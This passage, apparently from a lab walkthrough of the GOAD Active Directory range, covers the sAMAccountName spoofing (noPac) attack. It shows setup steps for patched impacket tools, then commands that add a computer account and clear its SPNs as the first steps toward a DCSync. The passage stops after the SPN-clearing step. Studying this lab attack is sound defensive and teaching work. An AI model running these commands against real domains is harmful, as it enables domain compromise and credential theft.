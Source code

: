 - Get the waiting pull requests we want (You can find a huge list of nice PR to merge in exegol install script : https://github.com/ShutdownRepo/Exegol-images/blame/main/sources/install.sh#L286 )

```shell
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
```

- Merge the pull requests to our branch

```shell
git merge 1202
git merge 1224
```

- Reorder the path entry result to load our pyenv bin before the others in the $PATH (this is needed on zsh, in bash it take directly our pyenv bins)

```shell
rehash
```

- Now let's check we get all the binaries and options we want :

```shell
renameMachine.py
getST.py
```

- Excellent, we are now using the latest impacket version with Shutdown (@_nwodtuhs) pull requests needed for this attack :)


### Exploit

What we will do is add a computer, clear the SPN of that computer, rename computer with the same name as the DC,
obtain a TGT for that computer, reset the computer name to his original name, obtain a service ticket with the TGT we get previously and finally dcsync :)

- Add a new computer

```shell
addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

![samaccountname_addcomputer.png](/assets/blog/GOAD/samaccountname_addcomputer.png)


- Clear the SPNs of our new computer (with dirkjan [krbrelayx](https://github.com/dirkjanm/krbrelayx) tool addspn)

```shell
addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\jon.snow' -p 'iknownothing' 'winterfell.north.sevenkingdoms.local'
```
